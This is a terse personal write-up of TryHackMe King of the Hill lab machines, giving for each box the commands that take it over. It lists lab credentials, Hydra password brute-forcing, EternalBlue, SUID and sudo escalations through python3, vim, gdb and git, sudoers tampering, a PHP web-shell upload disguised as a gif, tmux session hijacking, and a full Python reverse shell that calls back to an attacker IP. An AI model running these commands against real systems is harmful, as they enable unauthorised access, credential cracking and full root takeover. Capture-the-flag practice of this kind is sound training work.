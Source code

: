 # TryHackMe KOTH Writeup.

#

# Panda

ssh shifu@$IP
password: batman

sudo -l



# offline

msfconsole -> eternalblue


# Hackers

use anonymous login on ftp. You will have a note saying that there is users with weak passwords.

only one of them is actually weak so time to hydra'ate.

`hydra ssh://$IP -l rcampbell -P ../../res/rockyou.txt -t 64` and use the creds to ssh.
> -t 64 is allowed here. Ignore -t 4 warning.

Now time to check capabilities. `getcap -r / 2> /dev/null`.

Oh python3 has setuid. Gotcha. Use `python3 -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'`

boom. You are root.



# H1:Hard

on oprt 80 -> admin:niceWorkHackerm4n

then on shell use python3 revshell `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.42.183",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

then change to admin user using `ssh admin@localhost -t "bash --noprofile"`

change PATH with `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:`

then use `sudo chmod +s /bin/bash && /bin/bash -p`

then fdisk -l to list mounts

then mount it with `sudo mount /dev/xvda1 /mnt`

`(phoenix/.ssh/id_rsa.pub)` append to local `authorized_keys` then try to ssh into that account

then just sudo to root.





# Shrek

check the robots.txt file on port 80, it will give endpoint which will give ssh key for shrek user

`ssh -i id_rsa shrek@$IP`

then use SUID for gdb and get root.

change to proper root through changing the sudoers(Don't forget to change file permissions of sudoers)




# Fortune

get the base64 from `nc $IP 3333`

Convert that hash to file from online or anything.

use ` fcrackzip -v -u -D -p ../../res/rockyou.txt application.zip` to get the passcode of zip.

Then use `unzip application.zip` with passcode to get creds.txt

use this creds to `ssh`

then use `xargs` from gtfobins for SUID to get root.

Then use same sudoers technique to gain real root instead effective root.



# Food

there is a direct shell access on port `46969`

use `telnet $IP 46969`

You will be given user:password but they are ciphered with ceaser cipher. After decoding it is `food:givemecookies`

now `vim.basic` is a SUID. Use it to change /etc/sudoers and add food to run everything.

now `sudo su` with password or You can use NOPASSWD: ALL in /etc/sudoers too

DON"T forget to remove sudo privilleges from food once you get the root.



# Hogwarts

FORGET EVRYTHING AND RUN nmap scan and get the ports of the machine.

run `nmap -p- -vvv -sV $IP` or if you are really late then `nmap -p-20000 -vvv -sV $IP`

Better solution is to use browser based machine of thm. It will be life saver.

then login to ftp with anonymous and cd into `cd .../...`

you will have hidden .zip file. use `fcrackzip -v -u -D -p ../../res/rockyou.txt .I_saved_it_harry.zip` to crack password.

you will get ssh credentials for machine in `boot/.pass` it was this one in last attempt `neville:6mvv5yrw5ir55njoo45cf62l7`. Now ssh is on different port so that's why nmap scan is required.

Then it is just SUID.


# Tyler

On pert 80 webpage check /betatest which will show /etc/passwd so we get the username `narrator`.

now use `smbclient \\\\$IP\public` and get the alert.txt which includes the password for the user.

now use `/usr/bin/vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'` as vim is SUID binary.

Now classic change the /etc/sudoers to get the proper root.


# Carnage

On port 82 use burpsuit to upload the shell.gif.php by changing the content type image/gif.

Get the reverse shell, and now go to /tmp/tmux-0

Now we will use already running tmux session and tap into it to become root.

use `tmux -S default attach -t default`

Now for the king.txt, it is attributed to append only mode. use `echo PhoenixCreation >> /root/king.txt`.


# Production

`ftp $IP` use anonymous login and get the id_rsa.

then `chmod 600 id_rsa` and `ssh -i id_rsa ashu@$IP`

then use `sudo /bin/su skidy` to become skidy.

then use `sudo /bin/git -p help config` and then `!/bin/sh` to get the root.

> On port 9001, use `nc $IP 9001` with password `yourmom!` to get ashu's shell.

> On port 9002, use `nc $IP 9002` to get direct root shell but it is restricted.



# TIPS

Find flags easily: `find / -name *flag*.txt -exec cat "{}" \; 2> /dev/null | egrep -i 'THM'` (Also you can use just `*flag*` but it would be bit slower.)
